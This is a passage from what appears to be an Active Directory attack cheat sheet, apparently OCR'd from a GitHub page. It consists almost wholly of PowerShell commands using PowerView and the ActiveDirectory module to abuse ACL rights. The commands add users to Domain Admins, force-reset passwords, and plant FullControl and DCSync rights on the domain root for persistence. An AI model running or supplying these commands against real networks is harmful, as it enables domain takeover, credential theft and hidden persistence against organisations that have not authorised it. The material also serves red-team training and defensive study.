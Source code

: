 ```
PS C:\> Add-DomainGroupMember -Identity 'Domain Admins' -Members <username> -Verbose
```

- Abuse FullControl by adding a user to the Domain Admins group using ActiveDirectory Module

```
PS C:\> Add-ADGroupMember -Identity 'Domain Admins' -Members <username>
```

- Abuse ResetPassword by resetting a users password using PowerView_dev

```
PS C:\> Set-DomainUserPassword -Identity <username> -AccountPassword (ConvertTo-SecureString "<new-password>" -AsPlainText -Force) -Verbose
```

- Abuse ResetPassword by resetting a users password using ActiveDirectory Module

```
PS C:\> Set-ADAccountPassword -Identity <username> -NewPassword (ConvertTo-SecureString "<new-password>" -AsPlainText -Force) -Verbose
```

### Rights Abuse (Persistence using ACLs)

- Add FullControl permissions for a user to the ACL of the domain root using PowerView as Domain Admin

```
PS C:\> Add-ObjectAcl -TargetDistinguishedName 'DC=test,DC=domain,DC=local' -PrincipalSamAccountName <username> -Rights All -Verbose
```

- Add FullControl permissions for a user to the ACL of the domain root using ActiveDirectory Module and Set-ADACL as Domain Admin

```
PS C:\> Set-ADACL -DistinguishedName 'DC=test,DC=domain,DC=local' -Principal <username> -Verbose
```

- Add DCSync rights for a user to the ACL of the domain root using PowerView as Domain Admin

```
PS C:\> Add-ObjectAcl -TargetDistinguishedName 'DC=test,DC=domain,DC=local' -PrincipalSamAccountName <username> -Rights DCSync -Verbose

# 3 permissions: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes In Filtered Set
```

- Add DCSync rights for a user to the ACL of the domain root using ActiveDirectory Module and Set-ADACL as Domain Admin

```
PS C:\> Set-ADACL -DistinguishedName 'DC=test,DC=domain,DC=local' -Principal <username> -GUIDRight DCSync -Verbose

# 3 permissions: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes In Filtered Set
```
